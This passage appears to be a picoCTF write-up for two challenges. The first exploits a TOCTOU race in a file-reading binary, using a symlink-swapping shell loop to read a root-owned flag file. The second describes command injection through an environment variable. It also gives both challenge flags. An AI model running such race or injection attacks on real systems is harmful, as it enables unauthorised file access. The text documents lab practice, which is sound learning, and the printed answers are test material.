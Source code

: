 Overall, this program reads a file and outputs its contents to the console, but only if the user has permission to read the file (i.e., if they are the owner)

At this point what we would love to read is the flag.txt file
![image](https://user-images.githubusercontent.com/113513376/227712530-172eff47-a15e-47b2-bc68-63e285c5fe2a.png)

But the problem now is the file is only own by root 

So since the program reads files owned by the user, we won't be able to read the flag.txt

Thats what its normally supposed to do but here's the vulnerability 

From the task description it says `toc-tou` which means `Race Condition`
![image](https://user-images.githubusercontent.com/113513376/227712718-f07515f6-e722-4d81-9901-c66c8653ad91.png)

After reading some of the articles i found a way to exploit this

And its using symlink

Here's the exploitation phase:
![image](https://user-images.githubusercontent.com/113513376/227713039-11953029-e348-4d26-adea-117557e57696.png)

```
touch fake_flag
while true; do ln -sf flag.txt link; ln -sf fake_flag link; done &
while true; do ./txtreader link 2>/dev/null; done > val &
cat val
```

From that we can get the flag

```
Flag: picoCTF{ToctoU_!s_3a5y_5748402c}
```

### VNE
![image](https://user-images.githubusercontent.com/113513376/228078907-de95b7af-c532-471c-a863-3be22c42441c.png)

After i connected to the ssh instance i saw a binary there and ran it

But i got this
![image](https://user-images.githubusercontent.com/113513376/228079106-f1d7648f-9e56-4081-a959-36cb29d6946c.png)

So it reqires the `SECRET_DIR` environment to be set

It can be easily set like this
![image](https://user-images.githubusercontent.com/113513376/228079316-b956a43a-563a-4d16-a8a3-cc30f0062664.png)

So from the output we can tell that the binary does directory listing on the path specified 

Now what we can try here is command injection in the environment variable

Doing that works
![image](https://user-images.githubusercontent.com/113513376/228079603-fcf66dd3-cfd2-4470-be09-4bf2cb0ef893.png)

```
Flag: picoCTF{Power_t0_man!pul4t3_3nv_fc3ff2c9}
```
